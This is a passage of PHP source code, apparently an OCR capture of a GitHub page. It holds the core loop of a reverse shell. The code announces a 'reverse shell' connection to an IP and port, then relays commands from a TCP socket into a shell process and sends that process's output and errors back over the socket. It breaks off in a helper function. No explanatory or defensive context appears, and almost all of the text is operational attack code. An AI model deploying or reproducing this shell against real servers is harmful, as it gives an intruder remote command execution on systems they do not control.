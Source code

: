 ```
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
```